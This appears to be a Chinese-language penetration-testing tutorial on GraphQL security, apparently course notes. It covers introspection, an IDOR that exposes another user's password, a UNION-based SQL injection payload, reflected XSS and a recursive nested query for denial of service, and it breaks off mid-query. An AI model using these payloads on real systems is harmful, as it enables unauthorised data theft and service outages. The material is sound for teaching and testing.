# 一.简介

[GraphQL ](https://graphql.org/)是一种查询语言，通常被 Web API 采用，作为 REST 的替代方案。
它让客户端能够通过简洁的语法获取所需数据，同时提供 SQL 这类查询语言所具备的丰富功能。

和 REST API 一样，GraphQL API 可以读取、更新、创建或删除数据。
但 GraphQL API 通常只通过**单一接口端点**处理所有查询请求。

正因如此，相比传统 REST API，使用 GraphQL 的核心优势之一体现在**资源利用与请求处理的高效性**上。

## 基本概述

GraphQL 服务通常运行在**单一接口端点**上接收查询请求，最常见的路径是 `/graphql`、`/api/graphql` 或类似地址。前端 Web 应用要使用该 GraphQL 接口，后端就必须将其对外开放。和 REST API 一样，我们也可以**不经过前端页面，直接与 GraphQL 接口交互**，以此发现安全漏洞。

从抽象角度来说，GraphQL 查询的核心是选取对象的字段，每个对象都属于后端定义好的特定类型。查询语句按照 GraphQL 语法结构编写，根节点为要执行的查询名称。

例如，我们可以通过 `users` 查询，获取所有用户对象的 `id`、`username` 和 `role` 字段：

```graphql
{
  users {
    id
    username
    role
  }
}
```

GraphQL 返回结果的结构与查询语句一一对应，大致如下：

```json
{
  "data": {
    "users": [
      {
        "id": 1,
        "username": "htb-stdnt",
        "role": "user"
      },
      {
        "id": 2,
        "username": "admin",
        "role": "admin"
      }
    ]
  }
}
```

如果某个查询支持参数，我们就可以传入参数来过滤结果。
比如 `users` 查询支持 `username` 参数，我们就可以指定用户名来查询某一个用户：

```graphql
{
  users(username: "admin") {
    id
    username
    role
  }
}
```

我们可以自由增删需要查询的字段。
比如不想查看角色 `role`，而想获取密码 `password`，可以直接调整查询语句：

```graphql
{
  users(username: "admin") {
    id
    username
    password
  }
}
```

此外，GraphQL 还支持**嵌套查询（子查询）**，可以在查询中获取关联对象的详细信息。
例如，`posts` 查询返回的文章对象中包含 `author` 字段，而该字段对应一个完整的用户对象，我们就可以在查询文章时，一并查出作者的用户名和角色：

```graphql
{
  posts {
    title
    author {
      username
      role
    }
  }
}
```

返回结果会包含所有文章标题，以及对应作者的查询数据：

```json
{
  "data": {
    "posts": [
      {
        "title": "Hello World!",
        "author": {
          "username": "htb-stdnt",
          "role": "user"
        }
      },
      {
        "title": "Test",
        "author": {
          "username": "test",
          "role": "user"
        }
      }
    ]
  }
}
```

GraphQL 还支持更复杂的操作，但本模块掌握以上基础内容就足够了。
如需更详细的资料，可以查阅 GraphQL 官网的[学习板块](https://graphql.org/learn/)。

# 二. 攻击GAraphQL

攻击任何服务都需要进行全面的枚举和侦察，以识别所有可能的攻击途径。作为攻击者，我们的目标是尽可能多地获取有关服务的信息。

## 1.识别 GraphQL 引擎

登录示例 Web 应用程序并检查所有功能后，我们可以观察到对 /graphql 端点的多个请求，这些请求包含 GraphQL 查询：



因此，我们可以确定该 Web 应用程序实现了 GraphQL。首先，我们将使用 [Graphw00f 工具](https://github.com/dolevf/graphw00f)来识别该 Web 应用程序使用的 GraphQL 引擎。Graphw00f 会发送各种 GraphQL 查询，包括格式错误的查询，并通过观察后端对这些查询的响应行为和错误信息来确定 GraphQL 引擎。

克隆 Git 仓库后，我们可以使用 main.py Python 脚本运行该工具。我们将以指纹识别模式 ( -f ) 和检测模式 ( -d ) 运行该工具。我们可以提供 Web 应用程序的基本 URL，让 Graphwoof 尝试自行查找 GraphQL 端点：

```bash
$ python3 main.py -d -f -t http://172.17.0.2

                +-------------------+
                |     graphw00f     |
                +-------------------+
                  ***            ***
                **                  **
              **                      **
    +--------------+              +--------------+
    |    Node X    |              |    Node Y    |
    +--------------+              +--------------+
                  ***            ***
                     **        **
                       **    **
                    +------------+
                    |   Node Z   |
                    +------------+

                graphw00f - v1.1.17
          The fingerprinting tool for GraphQL
           Dolev Farhi <dolev@lethalbit.com>
  
[*] Checking http://172.17.0.2/
[*] Checking http://172.17.0.2/graphql
[!] Found GraphQL at http://172.17.0.2/graphql
[*] Attempting to fingerprint...
[*] Discovered GraphQL Engine: (Graphene)
[!] Attack Surface Matrix: https://github.com/nicholasaleks/graphql-threat-matrix/blob/master/implementations/graphene.md
[!] Technologies: Python
[!] Homepage: https://graphene-python.org
[*] Completed.
```

正如我们所见，Graphwoof 识别出了 GraphQL 引擎 Graphene 。此外，它还在[ GraphQL 威胁矩阵](https://github.com/nicholasaleks/graphql-threat-matrix)中提供了相应的详细页面，其中包含有关已识别 GraphQL 引擎的更多深入信息：

`https://github.com/nicholasaleks/graphql-threat-matrix `



最后，直接在浏览器中访问 /graphql 接口端点，我们可以发现该 Web 应用启用了 GraphiQL 界面。这让我们能够直接在页面上编写并执行 GraphQL 查询，相比通过 Burp Suite 发送查询要方便得多，因为我们完全不用担心写错 JSON 格式导致请求失效。

## 2. Introspection

内省（Introspection） 是 GraphQL 的一项内置功能，允许客户端向 GraphQL API 查询后端系统的完整数据结构。通过内省查询，我们可以获取到 API 数据模式（Schema）所支持的所有查询、类型和字段。这类内省查询会通过访问 `__schema `字段来实现。

例如，我们可以使用以下查询来识别后端支持的所有 GraphQL 类型：

```graphql
{
  __schema {    # 固定写法：查询 GraphQL 的【整体架构/结构】
    types {     # 架构里的【所有数据类型】（比如用户、文章、管理员...）
      name      # 只获取每个【数据类型的名字】
    }
  }
}
```

返回结果里，既会包含 GraphQL 自带的基础默认类型（比如 Int 整型、Boolean 布尔型），也会把后端自定义的所有业务类型一并列出来，比如 UserObject（用户对象）这类。

既然我们知道了类型，我们就可以使用以下内省查询来获取该类型所有字段的名称：

```graphql
{
  # 1. 固定语法：查询**指定名称**的数据类型
  __type(name: "UserObject") { 
  
    # 2. 返回这个类型的名字（验证是不是我们要查的 UserObject）
    name
  
    # 3. 核心！获取该类型下的**所有字段**（这是渗透最关键的部分）
    fields { 
  
      # 4. 每个字段的名称（比如 id、username、password、role）
      name
  
      # 5. 查看这个字段的**数据类型**
      type {
        name  # 类型名：String(字符串)、Int(数字)、Boolean(布尔)
        kind  # 类型种类：标量/对象等
      }
    }
  }
}
```

结果中，我们可以看到用户对象应包含的详细信息，例如 `username` 和 `password` ，以及它们的数据类型：



此外，我们可以使用以下查询获取后端支持的所有查询：

```graphql
{
  # 1. 访问 GraphQL 内省核心：查询整个API的架构信息
  __schema {
  
    # 2. 重点：查询【根查询类型】
    # 所有你能调用的查询接口（users / posts / admin 等）都在这里
    queryType {
  
      # 3. 获取根查询下的所有【字段】
      # 这些字段 = 你可以直接调用的查询功能
      fields {
    
        # 4. 查询接口的名称（比如：users、getUser、adminInfo）
        name
    
        # 5. 接口的描述（开发者写的备注，比如“获取所有用户”）
        description
      }
    }
  }
}
```

了解所有支持的查询有助于我们识别可用于获取敏感信息的潜在攻击途径。最后，我们可以使用以下“通用”内省查询，该查询会输出后端支持的所有类型、字段和查询信息：

```graphql
query IntrospectionQuery {
      __schema {
        queryType { name }
        mutationType { name }
        subscriptionType { name }
        types {
          ...FullType
        }
        directives {
          name
          description
      
          locations
          args {
            ...InputValue
          }
        }
      }
    }

    fragment FullType on __Type {
      kind
      name
      description
  
      fields(includeDeprecated: true) {
        name
        description
        args {
          ...InputValue
        }
        type {
          ...TypeRef
        }
        isDeprecated
        deprecationReason
      }
      inputFields {
        ...InputValue
      }
      interfaces {
        ...TypeRef
      }
      enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
      }
      possibleTypes {
        ...TypeRef
      }
    }

    fragment InputValue on __InputValue {
      name
      description
      type { ...TypeRef }
      defaultValue
    }

    fragment TypeRef on __Type {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
                ofType {
                  kind
                  name
                  ofType {
                    kind
                    name
                  }
                }
              }
            }
          }
        }
      }
    }
```

这次查询的结果相当庞大且复杂。不过，我们可以使用 [GraphQL-Voyager 工具](https://github.com/graphql-kit/graphql-voyager)将其可视化。在本模块中，我们将使用 [GraphQL Demo ](https://graphql-kit.com/graphql-voyager/)。但在实际项目中，我们应该按照 GitHub 上的说明自行托管该工具，以确保所有敏感信息都不会离开我们的系统。

在演示中，我们可以点击 CHANGE SCHEMA 并选择 INTROSPECTION 。将上述自省查询的结果粘贴到文本字段中，然后点击 DISPLAY ，后端 GraphQL 模式就会可视化显示出来。我们可以浏览所有支持的查询、类型和字段：



## 3.不安全直接对象引用 (IDOR)

与 REST API 类似，GraphQL 中常见的安全问题也包括授权漏洞，尤其是不安全直接对象引用 (IDOR) 漏洞。要了解更多关于 IDOR 漏洞的信息，请查看 “Web 攻击” 模块。

### 3.1识别 IDOR

为了识别与授权漏洞相关的问题，我们首先需要确定潜在的攻击点，这些攻击点可能使我们能够访问未经授权的数据。枚举 Web 应用程序后，我们可以观察到，当我们访问用户个人资料时，会发送以下 GraphQL 查询：



如我们所见，系统会根据查询中提供的用户名查询用户数据。虽然 Web 应用程序会自动查询我们登录用户的数据，但我们应该检查是否可以访问其他用户的数据。为此，我们提供一个已知存在的用户名： test 。请注意，我们需要转义 GraphQL 查询中的双引号，以免破坏 JSON 语法：

正如我们所见，我们可以在无需任何额外授权检查的情况下查询用户 test 的数据。因此，我们成功验证了此 GraphQL 查询中缺少授权检查。

### 3.2 利用 IDOR

为了演示此 IDOR 漏洞的影响，我们需要识别未经授权即可访问的数据。为此，我们将使用以下内省查询来确定 `User `类型的所有字段：

```graphql
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}

```

从结果可以看出， User 对象包含一个 password 字段，该字段很可能包含用户的密码：

让我们调整初始 GraphQL 查询，通过在 GraphQL 查询中添加 password 字段，来检查是否可以利用 IDOR 漏洞获取其他用户的密码：

```graphql
{
  user(username: "test") {
    username
    password
  }
}
```


从结果可以看出，我们已成功获取用户密码：

## 4. 注入攻击

最常见的 Web 漏洞之一是注入攻击，例如 SQL 注入 、 跨站脚本攻击（XSS） 和命令注入 。与所有 Web 应用程序一样，GraphQL 实现也可能受到这些问题的影响。

### 4.1 SQL 注入

由于 GraphQL 是一种查询语言，其最常见的用例是从某种存储介质（通常是数据库）中获取数据。SQL 数据库是最主流的数据库类型之一，因此，如果 GraphQL API 没有对后端执行的 SQL 查询中的参数进行适当的清理，则可能会出现 SQL 注入漏洞。所以，我们应该仔细检查所有 GraphQL 查询，确认它们是否支持参数，并分析这些参数是否存在潜在的 SQL 注入漏洞。

利用前面讨论过的内省查询以及一些反复试验，我们可以确定后端支持以下需要参数的查询：

* post
* user
* postByAuthor

为了确定查询是否需要参数，我们可以发送不带任何参数的查询并分析响应。如果后端需要参数，响应中会包含一个错误信息，告诉我们所需参数的名称。例如，以下错误信息告诉我们 postByAuthor 查询需要 author 参数：



提供 author 参数后，查询成功执行：

现在我们可以调查 author 参数是否存在 SQL 注入漏洞。例如，如果我们尝试一个简单的 SQL 注入攻击，查询不会返回任何结果：



接下来我们来看 user 查询。如果我们尝试使用相同的有效载荷，查询仍然返回之前的结果，这表明存在 SQL 注入漏洞：

如果我们只注入一个单引号，响应中会包含一个 SQL 错误，这证实了该漏洞的存在：



由于 SQL 查询语句会显示在 SQL 错误信息中，我们可以构建一个基于 UNION 的 SQL 注入查询，从 SQL 数据库中窃取数据。请记住，数据库中可能包含无法通过 GraphQL API 查询的数据。因此，我们应该检查数据库中是否存在任何我们可以访问的敏感数据。

为了构建基于 UNION 的 SQL 注入有效载荷，让我们再看一下内省查询的结果：

存在漏洞的 user 查询会返回一个 UserObject 对象，因此我们重点分析这个对象。

正如我们所见，该对象包含6 个字段和一个关联对象（posts）。这些字段对应着数据库表中的列。因此，我们基于 UNION 的 SQL 注入 Payload，必须包含6 列，才能与原始查询返回的列数匹配。
此外，我们在 GraphQL 查询中指定的字段，对应着响应中返回的数据库列。例如：由于 username 是 UserObject 的第三个字段，在查询中请求 username 字段，就会让我们 UNION 注入 Payload 中的第三列数据直接回显到响应结果里。

由于 GraphQL 查询仅会返回第一行数据，因此我们将使用 GROUP_CONCAT 函数来一次性泄露多行数据。通过该函数，我们可以使用下方的注入 Payload，一次性获取当前数据库中的所有表名。

```graphql
{
  user(username: "x' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -") {
    username
  }
}
```

响应中包含所有表名，这些表名连接在一起并显示在 username 段中：

```graphql
{
  "data": {
    "user": {
      "username": "user,secret,post"
    }
  }
}

```

由于这是一个 SQL 注入漏洞，与其他 Web 应用程序类似，我们可以利用所有 SQL 有效载荷和攻击向量来枚举列名，最终窃取数据。有关利用 SQL 注入的更多详细信息，请参阅“ SQL 注入基础” 和 “高级 SQL 注入” 模块。

### 4.2 跨站脚本攻击（XSS）

如果未经适当清理就将 GraphQL 响应插入到 HTML 页面中，则可能出现 XSS 漏洞。与上述 SQL 注入漏洞类似，我们应该检查所有 GraphQL 参数是否存在潜在的 XSS 注入点。然而，在本例中，两个查询均未返回 XSS 有效载荷：



如果错误消息中反映了无效参数，也可能出现 XSS 漏洞。我们来看一个 post 查询，它需要一个整数 ID 作为参数。如果我们提交一个包含 XSS 有效载荷的字符串参数，可以看到 XSS 有效载荷没有经过正确编码就反映在了 GraphQL 错误消息中：



但是，如果我们尝试通过访问 URL /post?id=<script>alert(1)</script> 并使用相应的 GET 参数来触发 URL，我们可以观察到页面直接崩溃，并且 XSS 有效负载没有被触发。

## 5.拒绝服务 (DoS) 攻击和批量攻击

根据 GraphQL API 的配置，我们可以创建一些查询，这些查询会产生指数级增长的响应，需要大量的资源来处理。此类查询会导致后端系统硬件占用率过高，进而可能导致拒绝服务 (DoS) 攻击，从而限制其他用户使用该服务。

### 5.1拒绝服务（DoS）攻击

要执行拒绝服务攻击，我们必须找到一种方法来构建一个会产生大量响应的查询。让我们看一下 GraphQL Voyager 中的自省结果可视化。我们可以通过 author 和 posts 字段识别出 UserObject 和 PostObject 之间的循环：

我们可以利用这个循环，构造一个查询语句，查询所有帖子的作者。然后，对于每个作者，我们再次查询所有帖子的作者。如果重复这个过程很多次，结果会呈指数级增长，最终可能导致拒绝服务攻击。

由于 posts 对象是一个 connection ，我们需要指定 edges 和 node 字段才能获得对相应 Post 对象的引用。例如，让我们查询所有帖子的作者。接下来，我们将查询每个作者的所有帖子，然后获取每篇帖子的作者用户名：

```graphql
{
  posts {
    author {
      posts {
        edges {
          node {
            author {
              username
            }
          }
        }
      }
    }
  }
}
```

这是一个无限循环，我们可以根据需要重复任意次数。如果我们查看此查询的结果，会发现它已经相当大了，因为每次循环迭代查询时，响应都会呈指数级增长：

初始查询语句过大会显著降低服务器速度，可能导致其他用户无法正常使用服务器。例如，以下查询会导致 GraphiQL 实例崩溃：

```graphql

{
  posts {
    author {
      posts {
        edges {
          node {
            author {
              posts {
                edges {
